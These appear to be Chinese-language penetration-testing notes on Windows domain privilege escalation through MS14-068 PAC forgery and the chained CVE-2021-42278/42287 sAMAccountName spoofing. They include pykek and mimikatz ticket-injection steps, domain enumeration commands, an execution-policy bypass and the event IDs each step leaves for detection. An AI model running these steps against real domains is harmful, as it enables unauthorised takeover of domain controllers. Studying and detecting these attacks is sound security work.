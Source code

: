 

![image-20230505114752270](内网.assets/image-20230505114752270.png)

![image-20230505115009856](内网.assets/image-20230505115009856.png)

## 漏洞&后门

### 1、MS14-068 提权漏洞

该漏洞可能允许攻击者将未经授权的域用户账户的权限,提权到域管理员的权限。（篡改PAC包里的验证）

~~~shell
# PAC（privileged attribute certification）
1、签名校验可控
2、PAC不在默认地方也能被识别（false之后，直接加在密文后面，但是可以被识别成功）
	（在authentic里面（有uid等）有group ID）
	（checksum里面是验证）
3、过程：
删除所有凭证、发送包（false）、复制时间、导出tgt
	1）用pykek生成一个新的PAC(改变时间戳等)
		/pykek-master/ --> vi pac.py --> python2 pac.py（改变域名、name、id、时间戳）
    whoami /all查看ID
	2）导入TGT和PAC
	3）使用mimikatz
		把文件放入mimikatz文件夹，使用命令：
		klist purge（删除所有）
		mimidrv.sys--> mimikatz.exe --> kerberos::purge --> kerberos::ptt xxx.kirbi
（票据传递工具）--> misc::cmd --> dir \\qaxdc1.qax.com\c$（验证） 
		
# 命令
1、whoami /all
2、net user aaa /domain（查看）
3、net user /domain
4、net group "domain admins" /domain 
5、runas /user:qax.com\wobushou cmd(runas允许用其它用户登录)
~~~



### 2、CVE-2021-42278/42287

需要两个漏洞一起使用。机器账户以$结尾，该名为域控用户qaxdc1申请票据，最后再改成其他名字，tgt会自动加上符号，hacker拿到域控的票据。

~~~shell
net group "domain computers" /domain
# 基础知识：
1、ms-DS-MachineAccountQuota:允许用户在域中创建的计算机账户数。10
2、SeMachineAccountPrivilege：将工作站添加到域使用此权限,用户可以创建计算机帐户。
3、sAMAccountName：用于存储账户登录名或用户符号，实际上是命名符号Domain\LogonName。该属性是域用户对象的必需属性。
4、（Name impersonation/KDCbamboozling）加入域的主机所创建的机器账户应该是以$结尾。DC没有一个对于sAMAccountName属性的验证过程。
# 日志
1、ID：4741：创建计算机账户【创建账户demo5】
2、ID：4742：更改计算机账户【清除了SPN（service pricipal name）】（虽然删除了SPN，但是依然有效。类似于DNS，删除才找不到账户）
3、ID：4742：更改计算机账户【更改账户名为qaxdc1】
4、ID：4768：请求kerberos身份验证票证(TGT)【以qaxdc1的身份申请到了票据】
5、ID：4742：更改计算机账户【改回账户为demo5】
6、ID：4769：请求kerberos服务票据【申请到域控的票据】
# 漏洞解释：两个漏洞要联合着用
  42278：去掉$，qaxdc1
  其中CVE-2021-42278是一个安全绕过漏洞,该漏洞允许攻击者使用计算机帐户sAMAccountName欺骗来冒充域控制器(SAM名称模拟)。
  42287：第一次请求之后，改名字。（改成其他名字之后，server以为是机器账号，就会自动加上$符号。）
  CVE-2021-42287是影响Kerberos特权属性证书（PAC）的安全绕过漏洞，允许攻击者冒充域控制器（KDC欺骗）。
  
#### shi'yanpowershell、机器账户
	powershell -exec bypass
~~~